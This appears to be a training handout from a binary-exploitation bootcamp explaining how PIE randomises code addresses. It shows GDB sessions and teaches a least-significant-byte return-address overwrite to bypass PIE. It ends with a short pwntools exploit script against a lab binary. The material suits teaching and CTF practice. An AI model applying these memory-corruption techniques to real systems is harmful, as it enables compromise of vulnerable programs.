 Example 3 (15 min) Partial Overwrite TODO: Skip/Move/Add Technique?

# Example 03

This next example will introduce 'PIE' - Position Independent Execution, and one technique to bypass it.

## PIE

You can think of PIE as ASLR for the code segment. If a binary is compiled with PIE, then the address of functions and strings will be at a different location each run.

PRIVATE NOTE: Demonstrate in GDB: `p main`

We can see this in GDB, when we compile with and without pie. By default, GDB will automatically disable PIE to make debugging 'easier', so before starting the program, run `set disable-randomization off`.

PIE Disabled:
```
━━┫ gdb example03-no-pie -q 
Reading symbols from example03-no-pie...
gef➤  set disable-randomization off
gef➤  p main
$1 = {<text variable, no debug info>} 0x401020 <main>
gef➤  b main
Breakpoint 1 at 0x401020
gef➤  r
Starting program: /home/nat/Dev/bootcamp-training-2020/pwn/example03/example03-no-pie 

Breakpoint 1, 0x0000000000401020 in main ()
gef➤  p main
$2 = {<text variable, no debug info>} 0x401020 <main>
gef➤  quit
```

PIE Enabled:
```
━━┫ gdb example03 -q
Reading symbols from example03...
gef➤  set disable-randomization off
gef➤  p main
$1 = {<text variable, no debug info>} 0x1040 <main>
gef➤  b main
Breakpoint 1 at 0x1040
gef➤  r
Starting program: /home/nat/Dev/bootcamp-training-2020/pwn/example03/example03 

Breakpoint 1, 0x000055cf4bef9040 in main ()
gef➤  p main
$2 = {<text variable, no debug info>} 0x55cf4bef9040 <main>
```

When PIE is disabled, the address code is loaded at is saved in the binary. When PIE is enabled the location of `main` is different before execution starts and it is loaded into memory. This makes jumping to code in a binary much more difficult.

## LSB Overwrite

This example will introduce a simple and basic technique to bypass PIE. A LSB overwrite is what we call it when we overwrite the least significant byte of the return address. This works because the least significant byte will be unchanged by PIE, since true randomization adds a lot moreoverhead.

Here is an example:

If we wanted to return to `main`, in the previous example, we can look at the code and see that the address of main in the binary is `0x1040`, we would want to overwrite the least significant byte of the hypothetical current return address of `0x000055cf4bef90a2` to `0x40`, resulting in a return address of `0x000055cf4bef9040`, the address of `main` that we want to jump to. 

The situations where this technique will work are somewhat limited:
 - There must be code that you want to execute within about 256 bytes of the return address
 - If a null byte will be appended to your input, the technique will not work reliably. (Sometimes overwriting the LSB with 0x00 will still be useful)

In addition, a brute-force option is sometimes appropriate. You can continue to overwrite the 2nd or 3rd least significant bytes, and run your exploit multiple times until the randomization works out.

## Example

PRIVATE NOTE: Be willing to skip walking through this example. Also side not of overwriting counter, needing to be done correctly, and as another way to exploit some buffer overflows. If extra time, demo finding that in GDB.

Sometimes you run into weird situations, and your payload isn't working as expected. This is where debugging with gdb can be especially helpful. In this example, your first attempt at a payload might not work. This is because one of your input bytes will overwrite the variable `i`, which determines what offset will be written to. If you notice this, you can set the offset to your desired value, and can continue with your exploitation.

```python
from pwn import *

p = process('./example03')

# \x27 overwrites the counter, and points it to the end of the return address
# \xbb is the address of 'win'
payload = b'A' * 24 + b'\x27' + b'\xbb'
p.sendline(payload)

p.interactive()
```
